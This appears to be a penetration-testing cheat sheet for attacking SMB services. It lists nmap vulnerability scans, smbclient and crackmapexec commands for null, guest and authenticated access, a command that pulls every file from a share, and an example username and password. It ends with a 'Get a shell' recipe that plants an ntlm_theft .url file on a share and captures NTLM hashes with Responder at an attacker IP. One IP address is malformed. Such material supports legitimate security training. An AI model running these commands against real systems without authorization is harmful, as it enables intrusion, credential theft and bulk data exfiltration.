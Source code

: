 # 139,445 - SMB

### Nmap&#x20;

```sh
nmap -v -p 139,445 -oG smb.txt 192.168.50.1-254
```

```sh
ls -1 /usr/share/nmap/scripts/smb*
```

{% code overflow="wrap" %}
```sh
nmap -v -p 139,445 --script smb-os-discovery 192.168.50.152
```
{% endcode %}

{% code overflow="wrap" %}
```shell
nmap 192.168.0.101 --script=smb-enum*
nmap 192.168.0.101 --script=smb-vuln*
nmap 192.1688.0.101 --script=smb-os*
```
{% endcode %}

#### a

```
sudo nbtscan -r 192.168.50.0/24
```

```sh
net view \\dc01 /all
```

### smbclient

List Available SMB Shares:

```sh
smbclient -L \\\\<IP>\\
smbclient -L \\\\<IP>\\C$
smbclient -U '' -L \\\\<IP>\\
```

Connect to share (null login)

```sh
smbclient //$IP/IPC$ -U '' 
```

List shares (as guest):

```
smbclient -U guest -L 192.168.0.1
```

List shares (as user):

```sh
smbclient \\\\192.168.0.1\\Users -U c.smith
```

Download all files from a directory:

{% code overflow="wrap" %}
```sh
smbclient '\\server\share' -N -c 'prompt OFF;recurse ON;cd 'path\to\directory\';lcd '~/path/to/download/to/';mget *'
```
{% endcode %}

List streams:

{% code overflow="wrap" %}
```sh
smbclient \\\\192.168.0.1\\Data -U John -c 'allinfo "\Users\John\file.txt"'
```
{% endcode %}



### crackmapexec

SMB Enumeration:

<pre class="language-sh"><code class="lang-sh">crackmapexec smb &#x3C;IP>
<strong>crackmapexec smb &#x3C;IP> --users
</strong>crackmapexec smb &#x3C;IP> --shares
</code></pre>

Null and Default Guest Logins:

```sh
crackmapexec smb <IP> --shares -u ' ' -p ''
crackmapexec smb <IP> --shares -u '' -p ''
crackmapexec smb <IP> -u ' ' -p ''
crackmapexec smb <IP> -u 'guest' -p ''
```

Local Authentication:

```
crackmapexec smb <IP> -u <user> -p <pass> --local-auth
```

Domain Authentication:

```
crackmapexec smb <IP> -u <user> -p <pass>
```

{% code overflow="wrap" %}
```
crackmapexec smb 192.168.219.122 -u fmcsorley -p CrabSharkJellyfish192 --shares
```
{% endcode %}

### Enum4Linux <a href="#enum4linux" id="enum4linux"></a>

```
enum4linux -a $ip

enum4linux -u 'guest' -p '' -a $ip
```

### Get a shell:

Use [ntlm\_theft](https://github.com/Greenwolf/ntlm_theft) to create a malicious `.url` file.

```sh
python3 ntlm_theft.py -g url -s 10.11.63.57 -f test
```

Start responder:

```sh
sudo responder -I tun0
```

Upload shell to share:

```sh
smb: \onboarding\> put "test-(icon).url"
```

The wait for hash to be outputted to responder

